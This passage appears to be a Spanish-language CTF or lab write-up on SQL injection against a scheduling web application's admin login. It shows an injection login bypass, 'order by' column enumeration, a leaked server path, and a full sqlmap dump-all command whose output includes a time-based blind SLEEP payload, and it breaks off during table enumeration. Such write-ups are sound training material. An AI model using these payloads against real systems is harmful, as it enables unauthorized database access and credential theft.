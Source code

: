 ![[Pasted image 20241008191908.png]]
*Cuando entremos al /admin podemos ver lo siguiente...*

![[Pasted image 20241008192005.png]]
*Cerramos la sesion para volver a probar SQLI*

![[Pasted image 20241008192038.png]]
*Ponemos la siguiente injección...*

![[Pasted image 20241008192056.png]]
*Vemos que ahora somos Administrador...*

![[Pasted image 20241008192233.png]]
*Vamos a probar de sacar credenciales...*

![[Pasted image 20241008192419.png]]
*Interceptamos la petición y probamosa a poner una ' ...*

```html
</b>:  Trying to get property 'num_rows' of non-object in <b>/var/www/scheduling/admin/admin_class.php</b>
```
*Podemos ver una ruta leak...*

```r
username=admin' order by 100-- -&password=admin

</b>:  Trying to get property 'num_rows' of non-object in <b>/var/www/scheduling/admin/admin_class.php</b>
```
*Podemos ver que nos da error...*

```r
username=admin' order by 5-- -&password=admin

1
```
*Aquí podemos ver que ya no nos da error.*

6. SQLI
```r
❯ sqlmap --risk 3 --level 5 --random-agent --dump-all -r ./request --technique=T --time-sec=1 --batch
        ___
       __H__
 ___ ___[ ]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2186 FROM (SELECT(SLEEP(5)))aHsm)-- xkWh&password=admin"
---

[BASE DE DATOS]
[15:36:47] [INFO] retrieved: scheduling_db
[15:38:29] [INFO] fetching tables for databases: 'information_schema, scheduling_db'

[TABLAS DE SCHEDULING_DB]
[15:38:29] [INFO] fetching number of tables for database 'scheduling_db'
[15:38:29] [INFO] retrieved: 6
[15:50:43] [INFO] resumed: class_schedule_info
```